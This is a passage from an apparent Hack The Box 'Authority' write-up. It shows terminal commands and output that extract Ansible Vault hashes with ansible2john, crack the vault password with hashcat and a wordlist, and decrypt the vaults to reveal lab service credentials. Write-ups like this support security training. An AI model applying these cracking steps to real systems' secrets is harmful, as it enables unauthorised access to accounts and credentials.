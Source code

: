Then we need to convert it into hash which could be processed by hashcat.

```jsx
┌─[✗]─[noob@parrot]─[~/htb/authority/notes/smb_development]
└──╼ $/usr/share/john/ansible2john.py h1 
h1:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8
```

Note here I had to remove the filename i.e. `h1:` part and the file should only contain the hash.

We were then able to crack the vault password with `hashcat mode 16900`.

```jsx
$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8:!@#$%^&*
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Ansible Vault
Hash.Target......: $ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2...bc2cd8
Time.Started.....: Wed Nov 29 09:16:11 2023 (18 secs)
Time.Estimated...: Wed Nov 29 09:16:29 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2228 H/s (6.31ms) @ Accel:512 Loops:128 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 39936/14344385 (0.28%)
Rejected.........: 0/39936 (0.00%)
Restore.Point....: 38400/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:9984-9999
Candidates.#1....: jonah1 -> prospect

Started: Wed Nov 29 09:15:24 2023
Stopped: Wed Nov 29 09:16:33 2023
```

```bash
┌─[noob@parrot]─[~/htb/authority/notes/smb_development]
└──╼ $/usr/share/john/ansible2john.py pwm_admin_password | awk -F ':' '{print $2}'
$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5
┌─[noob@parrot]─[~/htb/authority/notes/smb_development]
└──╼ $/usr/share/john/ansible2john.py pwm_admin_password | awk -F ':' '{print $2}' > pwm_admin_password_hash
```

Upon inspecting all three vaults, it was observed that each one shared the same vault password. The next step involved decrypting the vault to access and read the sensitive information within.

As per the instructions we get three different secrets i.e. ldap_admin_password, pwm_admin_password, and pwm_admin_login. 

```jsx
┌─[noob@parrot]─[~/htb/authority/notes/smb_development]
└──╼ $cat ldap_admin_password | ansible-vault decrypt
Vault password: 
Decryption successful
DevT3st@123┌─[noob@parrot]─[~/htb/authority/notes/smb_development]
└──╼ $cat pwm_admin_password | ansible-vault decrypt
Vault password: 
Decryption successful
pWm_@dm!N_!23┌─[noob@parrot]─[~/htb/authority/notes/smb_development]
└──╼ $cat pwm_admin_login | ansible-vault decrypt
Vault password: 
Decryption successful
svc_pwm
```
